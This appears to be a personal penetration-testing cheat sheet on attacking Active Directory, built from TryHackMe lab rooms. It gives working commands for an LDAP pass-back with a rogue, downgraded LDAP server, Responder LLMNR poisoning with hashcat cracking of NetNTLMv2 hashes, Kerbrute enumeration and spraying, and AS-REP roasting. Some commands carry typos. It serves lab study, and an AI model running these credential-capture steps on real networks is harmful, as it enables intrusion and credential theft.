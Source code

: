 # [Windows] - AD attack

---

## Summary

- [Recover AD credentials](https://github.com/NG3IT/Sec/blob/main/3.2.0%20-%20%5BWindows%5D%20-%20AD%20attack.md#recover-ad-credentials)
- [Breaching AD]

<br>

---

## Recover AD credentials

---

## Breaching AD

[Breaching AD](https://tryhackme.com/room/breachingad)

Some techniques :
- NTML Authenticated services
- LDAP bind credentials
- Authentication relays
- Microsoft Deployment Toolkit
- Configuration files

Two popular methods for gainging access to that first set of AD credentials is **OSINT** and **phishing**

#### OSINT 

- Stack Overflow : sometimes user who asked disclose sensitive information
- GitHub : scripts with credentials hardcoded
- Credentials being disclosed : [Dehashed](https://www.dehashed.com/) / [Haveibeenpwned](https://haveibeenpwned.com/)

#### Phishing


---


### NTLM / NetNTLM

NTML : New Technology LAN Manager is the suite of security protocols used to authenticate users' identity in AD

NetNTLM : Authentication by using a chellenge-response based cheme called NetNTLM

Example of services who use NTLM :
- Internally-hosted mail server that expose an Outlook Web App
- RDP exposed to the internet
- VPN integrated with AD
- Web applications internet facing and make use of NetNTLM

#### Brute-force login attack

Use script or tool like hydra

#### Password spraying

Test multiple username with one password (default password of company for example)

### LDAP Bind Credentials

#### LDAP Pass-back attacks

Common attack against network devices -> plugging in rogue device

```bash
$ service slapd stop
$ $ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

```
# Hosting a rogue LDAP server
$ sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
# If necessary -> reconfigure slapd
$ sudo dpkg-reconfigure -p low slapd
# Downgrade the supported authentication mechanisms
$ echo "#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred" > olcSaslSecProps.ldif
# Patch our LDAP with the ldif file
$ sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
# Verify configuration
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

# Capture trafic and password 
$ sudo tcpdump -SX -i breachad tcp port 389
``` 

---

### NetNTML with SMB

It is possible to intercept NTLM challenges and crack it to recover password

It is possible to run a man in the middle attack with a rogue device (use Responder to perform man in the middle and poisonning LLMNR as Link-Local Multicast Name Resolution, NBT-NS NetBIOS Name Server and WAPD Wab Proxy Auto-Discovery)

```bash
# Start Responder
$ sudo responder -I <interface>
$ sudo responder -I 
# Wait capture NTLMv2-SSP
# Copy the NTLMv2-SSP Hash on file
$ echo "<NTLMv2-SSP content>" > <hashfile>
# Use hashcat 
hashcat -m 5600 <hashfile> <passwordfile> --force
```

---

### Microsoft Deloyment Toolkit

It is possible to inject a privilege escalation vector to gain admin access to the OS one the PXE booted

It is possible to perform password scraping attacks to recover AD cred used during the install

```bash
1. First we need to find the IP of the MDT server
2. What was the name of the BCD files (PXE boot for multiple arch)
```

---

This sumary is inspired by the THM room - [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

Also, see the writeups of the THM room [TryHackMe - Attacktive Directory](https://github.com/NG3IT/Challenge-Writeups/new/main)

---

## Procedure

Enumerate global information :

```bash
$ enum4linux <IP>
```

Enumérate user :

```bash
$ ./kerbrute_linux_amd64 userenum --domain THM-AD --dc 10.10.171.193 /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt 
```

Abusing Kerberos (GetNPUsers.py) :

```bash
$ impacket/examples/GetNPUsers.py <ip>/<user>
```

---

## Usefull tools by ports 

139 -> enum4linux 
445 -> enum4linux

---

## Tools

This section cover this follow tools :

1. Impacket
2. Bloodhound
3. Neo4j

---

## Impacket

Follow this instructions for install impacket :

```bash
$ git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
$ pip3 install -r /opt/impacket/requirements.txt
$ cd /opt/impacket/ && python3 ./setup.py install
```

---

## Bloodhound

Follow this instructions for install Bloodhound :

```bash
$ sudo apt install bloodhound
```

---

## Neo4j

Foolow this instructions for install Neo4j :

```bash
$ sudo apt install leo4j
```

--- 

## Kerbrute

Installation :

```bash
$ pip3 install kerbrute
```

[Kerbrute help](https://github.com/ropnop/kerbrute)
[Kerbrute help - KaliLinux](https://kalilinuxtutorials.com/kerbrute-a-tool-to-perform-kerberos-pre-auth-bruteforcing/)

Options :

bruteuser – Bruteforce a single user’s password from a wordlist
passwordspray – Test a single password against a list of users
usernenum – Enumerate valid domain usernames via Kerberos

-dc -> specify domain controller
-d -> specifty domain
-t -> defin threads (10 by fedault)
-o -> stdout
-v -> failures logged
